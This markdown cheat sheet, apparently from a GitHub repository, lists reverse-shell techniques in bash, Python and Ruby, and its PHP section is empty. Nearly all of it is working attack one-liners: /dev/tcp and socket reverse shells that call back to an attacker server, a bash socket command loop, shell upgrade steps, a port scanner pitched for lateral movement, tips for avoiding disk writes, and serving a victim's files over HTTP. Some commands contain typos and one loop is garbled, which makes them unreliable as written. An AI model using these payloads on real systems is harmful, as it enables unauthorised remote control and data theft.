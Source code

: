 # Shells

>  A shell is software/protocol that provides an interface for an CLI to the underlying OS


### BASH

######  REMEMBER IF YOU NEVER WANT TO TOUCH DISK ON THE REMOTE HOST ALWAYS USE /dev/shm (SHARED MEMORY) , AS THIS IS TREATED AS VIRTUAL MEMORY AND MOUNTED AS tmpfs NOTHING IS STORED OR WRITTEN TO DISK. THE BONUS IS THAT YOU WILL SEE A PERFORMANCE INCREASE TOO.
<hr>
Bash as it stands, is a (the most popular) shell on its own, but can also provide some really neat tricks to allow for all kinds of shell related goodness, such as a reverse shell.

#### Bash reverse shell

* Spawn a reverse shell back to your server using /dev/tcp or /dev/udp
    > bash -i >& /dev/tcp/\<yourserver>/8080 0>&1 
    
		Example:  bash -i >& /dev/tcp/10.10.10.1/8080 0>&1
    <br>
    > or bassh -c bash -i >& /dev/tcp/\<yourserver>/8080 0>&1 
    
		Example: bash -i >& /dev/tcp/yourserver.com/443 0>&1
    <br>

#### Bash /dev/tcp or /dev/udp port scanner

 * Using /dev/tcp or /dev/udp to do a port scan, useful for checking connected hosts for laterial movement
    * Example looking for open web connection on a remote host when no port scammer is available:
        <br> 

			 for port in {21.\.443}; do echo -e "GET / HTTP/1.0\n\n" > bash -i >& /dev/tcp/\<server>/\$port 0>&1 && echo -e "\n[Port $port is UP]\n"; done

<br>
 
 * Of course you could also always put this in a shell script, as originally found on oreilly.com/pub/h/5299 and small mod by Luke Bonanomi [bash port scanner](https://github.com/rupert0/shell/blob/master/bash/portscanner)
<br>

    	#!/usr/bin/env bash
    	
	    for port in \$(yes scan | head -$3)
		    do
		    (( start++ ))
		    if [[ -n $(echo '' > /dev/$2/$1/$start && echo "up") ]];
			    then
				echo "Port $start" >> scan;
		    fi
	    done;
	    clear;
	    cat scan;
	    rm scan;

			> ./portscan.sh 127.0.0.1 tcp 122 2> /dev/null
<br>

 * Another useful reverse shell we could do with bash and /dev/tcp or /dev/udp is create a connection that basically mimics netcat but done purley in bash, start off with a netcat listener on your server:
	> nc -lvvvnp 8001
	
*	Then on the remote server we use some bash-fu
	> exec 5<>/dev/tcp/\<yourserver>/8001 && while read line 0<&5; do $line 2>&5 >\&5; done
	
* This will allow everything you type on your server to be executed on the remote server and the output is conveniently piped back to you 
<hr>

### Python
Of course the reverse shell options are always going to be dependent on the installed scripting languages, but almost all systems have python installed. That is great news as it allows us to do a few handy tricks from a reverse shell to setting the stty to act and feel like a full shell with tab complete and the works.

#### Python reverse shell

 - Spawn a reverse shell back to your server using python built in libraries.
 

	> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("\<yourserver>",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	
- Once you have the shell (with sh or any dumb shell) you can then escalate if you so wish to bash or the full shell of your choice with :

	    $ python -c "import pty;pty.spawn('/bin/bash')"
	    
- Then background the shell and set stty and then foreground again for a complete fully functional shell, to background the shell use Ctrl Z and type :
 
		$ stty raw -echo
		
- Then foreground again with fg. I have on occasion had to type reset as well.
- Advantages to this is of course the ability to run things like ssh and vim have tab-complete, job control and history to mention a few.

#### When all else fails
- And you can't get a shell, you could simply create a web interface to the current directory, using :

	    python -m SimpleHTTPServer 8001 
- or for python3 use :  

	    python3 -m http.server 8001

- Then point your browser at the victim server on port 8001, or use a port that would always be allowed through the firewall like port 80 or 443 or 21, 25 ,110 etc. This assumes that the victims machine is either external facing  or you are sitting internally.

<hr>

### Ruby
If ruby is installed instead of python or you prefer ruby, then the reverse shell is just as easy and you can follow the steps above to escalate to full shell :

> ruby -rsocket -e"f=TCPSocket.open('10.0.0.1',8001).to_i;exec sprintf('/bin/sh -i <&%d >&%d 2>&%d',f,f,f)"

- If for some reason you can't get the /bin/sh or any other shell, you could use IO to execute commands :

> ruby -rsocket -e "exit if fork;c=TCPSocket.new('10.0.0.1',8001);while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end"

- As with python if all else fails and you can't get a shell serve the current directory over a web interface :

	    ruby -run -e httpd . -p 8001

<hr>

### PHP


 
